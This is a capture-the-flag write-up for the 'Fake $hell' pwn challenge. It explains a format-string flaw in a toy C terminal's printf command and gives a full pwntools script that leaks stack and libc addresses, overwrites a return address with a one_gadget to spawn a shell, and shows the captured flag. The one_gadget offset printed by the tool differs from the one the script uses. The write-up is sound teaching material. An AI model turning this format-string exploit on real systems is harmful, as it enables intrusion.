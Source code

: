 # Fake $hell

![alt challenge](./fakeshell.jpg)

### Description
```
While learning programming, I wrote a small fake terminal in C, it's very simple very few
supported commands, and only safe operations (no unsafe system() calls for example).
It is accessible at: terminal.challs.shellmates.club:1337

Goal: Prove you can escape from the fake shell to the real shell.
```
```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    PIE enabled
```
Here is the ![Terminal](./terminal) binary and the ![libc](./libc-2.27.so) files.<br>
When we connect using netcat and check the supported commands, we find these eight commands<br>
```
mate@pwnable:/ $ help
Supported commands
ls	id	whoami	echo	printf
cat	pwd	cd	help	exit
mate@pwnable:/ $
```
good, we can use printf() to leak addresses to bypass ASLR and write anywhere in memory<br>
by looking at the decompiled binay with ghidra we find an interessting function process_cmd()<br>
which executes the parced command and return, we will overwrite its return address to spawn<br>
a shell using one gadget:<br>
```
$ one_gadget libc-2.27.so 
0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
in this ![python script](./exploit.py) i leaked rbp to calculate the address of the format string<br>
and libc_start_main (the return address of main) to calculate the address of one gadget at run time<br>
```python2
#!/usr/bin/env python2
from pwn import *

s = remote ('terminal.challs.shellmates.club', 1337)

one_gadget_offset = 0xe87f5

#leaking rbp and calculating the return address
payload = 'printf %8$lp'
s.sendline(payload)
s.recvuntil('0x')
ret  = int(s.recv(12), 16) - 0x418
ret1 = p64(ret)
ret2 = p64(ret + 2)
ret3 = p64(ret + 4)
log.info('return address: '+ str(hex(ret)))

#leaking libc_start_main address and calculating one gadget address
payload = 'printf %141$lp'
s.sendline(payload)
s.recvuntil('0x')
libc_start_main = int(s.recv(12), 16)
one_gadget = libc_start_main + one_gadget_offset
log.info('one gadget address: '+ str(hex(one_gadget)))

#calculating lenght for %n to overwrite the return address with one gadget
length1 = (one_gadget & 0xffff) - 1
length2 = (one_gadget >> 16 & 0xffff) - length1 -1
length3 = (one_gadget >> 32 & 0xffff) - length1 - length2 -1

#to construct the address two bytes at the time, the lengths have to be from smaller to bigger
if (length2 < 0) or (length3) < 0:
    log.info('bad address, try again.')
    exit()


#overwriting the return address with one gadget address
payload  = 'printf a'
payload += '%' + str(length1) + 'd'
payload += '%16$n'
payload += '%' + str(length2) + 'd'
payload += '%17$n'
payload += '%' + str(length3) + 'd'
payload += '%18$nh'
payload  = payload.ljust(0x30, '\0')
payload += ret1 + ret2 + ret3

#the constraint of one gadget is [rsp+0x70] == NULL
payload  = payload.ljust(0x400, '\0')

s.sendline(payload)
s.interactive()
```
# Flag
```
$ cat flag.txt
shellmates{f4ke_term1nal_r3al_pr1%ntf!}
$
```
